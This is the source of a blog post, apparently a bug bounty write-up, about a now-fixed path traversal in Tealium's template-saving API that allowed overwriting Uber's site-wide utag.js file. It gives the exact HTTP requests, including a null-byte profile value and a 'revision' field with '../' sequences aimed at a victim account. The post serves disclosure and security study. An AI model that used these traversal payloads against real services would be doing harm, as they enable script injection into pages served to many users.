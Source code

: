 ```yaml
---
layout: post
title: Hijack the JS File of Uber's Website
categories: articles
---
```


<p align="right" class="date">{{ page.date | date_to_string }} - zhchbin</p>

&nbsp;&nbsp;&nbsp;Again, sorry for my poor English first of all, and I will try my best to describe this bug bounty report throughly.

## TLDR

1. Almost all of Uber’s websites are loading JS file: https://tags.tiqcdn.com/utag/uber/main/prod/utag.js
2. I found that the content of utag.js is updating from `/data/utui/data/accounts/uber/templates/main/utag.js` when deploying in my.tealiumiq.com.
3. my.tealiumiq.com has a path traversal issue, which allow hacker to change `utag.js` of other account, including Uber’s.
4. This bug had beed fixed 8 months ago. Bug Bounty: $6000.

## My Steps

I like asking myself some questions when hunting for bug bounty. Looking around about `https://tags.tiqcdn.com/utag/uber/main/prod/utag.js`, I found Uber’s websites were using a third party service offered by Tealium. I asked myself: can I modify the content of `utag.js`? How?

I registered two account and began my journey. WARNING: DO NOT TEST IN PRODUCTION USING TARGET ACCOUNT.

<img src="https://ws1.sinaimg.cn/large/7184df6bgy1fxtifofrypj20gh0bq0tw.jpg">

* Post `/urest/legacy/saveTemplate` with `profile=main%00` to get the path in server

{% highlight javascript %}
POST /urest/legacy/saveTemplate?utk=044925f62222711fdfec11dc6a4e7160e053d31e1a7f4774e8 HTTP/1.1
Host: my.tealiumiq.com
<redated>

account=evilaccount&profile=main%00&type=profile&template=profile.loader&code=%2F%2F+console.log(1)%3B%0A%0Aconsole.log(1)%3B
{% endhighlight %}

Response

{% highlight javascript %}
{ "message" : "There was an error updating this template: /data/utui/data/accounts/evilaccount/templates/main/utag.js"}
{% endhighlight %}

As you can see, the `utag.loader` template path is `/data/utui/data/accounts/evilaccount/templates/main/utag.js`

* Change the requst body to update the revision.loader

{% highlight javascript %}
POST /urest/legacy/saveTemplate?utk=688b137d1b8d8e884b3e1be4cd689843d0e3bc9705665f059b HTTP/1.1

account=evilaccount&profile=main%00&type=revision&template=revision.loader&code=thisisatest&revision=201804081230
{% endhighlight %}

Response

{% highlight javascript %}
{ "message" : "There was an error updating this template: /data/utui/data/accounts/evilaccount/templates/main/201804081230/utag.js"}
{% endhighlight %}

As you can see `201804081230` is appearing at the path. After testing, I found that I can insert `../` into this path, which means that I can change utag.js of any account, including Uber’s.

{% highlight javascript %}
POST /urest/legacy/saveTemplate?utk=688b137d1b8d8e884b3e1be4cd689843d0e3bc9705665f059b HTTP/1.1
...

account=evilaccount&profile=main&type=revision&template=revision.loader&code=thisisatest&revision=201804081230/../../../../<victimaccount>/templates/main
{% endhighlight %}
